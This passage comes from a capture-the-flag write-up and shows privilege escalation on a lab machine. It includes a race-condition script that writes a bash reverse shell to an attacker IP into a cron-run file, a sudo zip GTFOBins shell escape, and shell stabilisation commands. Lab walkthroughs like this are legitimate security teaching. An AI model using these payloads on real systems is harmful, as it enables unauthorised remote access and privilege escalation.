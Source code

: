 We have 30 secs to change the contents of `/opt/scripts/47.sh` file so that we can do something with it. Let's check if we can get the reverse shell.

Creating a race.sh for easier work

```bash
#!/bin/bash

file=/opt/scripts/47.sh

echo "#!/bin/bash" > $file
echo "/bin/bash -i >& /dev/tcp/<ip_here>/9999 0>&1" >> $file

echo "/usr/bin/wall file executed" >> $file
echo " " >> $file
```

Due to it being a race condition we just have to run this script repeatedly hence an infinte loop will help here:

```bash
while true; do ./race.sh; done
```

Once reverse shell is acquired just cat flag.txt

`dalia{4a94a7a7bb4a819a63a33979926c77dc}`

**Make sure not to close the rev shell as it is not possible to do su to *dalia* user.**

### Silvios 

Using `sudo -l` reveals:

```bash
Matching Defaults entries for dalia on linuxagency:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dalia may run the following commands on linuxagency:
    (silvio) NOPASSWD: /usr/bin/zip
```

Checking payload at [gftobins](https://gtfobins.github.io/gtfobins/zip/) and executing the following

```bash
TF=$(mktemp -u)
zip $TF /etc/hosts -T -TT 'sh #'
rm $TF
```

Just do `cd ~; cat flag.txt` to get the flag:

`silvio{657b4d058c03ab9988875bc937f9c2ef}`

Stablizing shell:

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
export SHELL=bash
^Z 
stty raw -echo; fg 
```
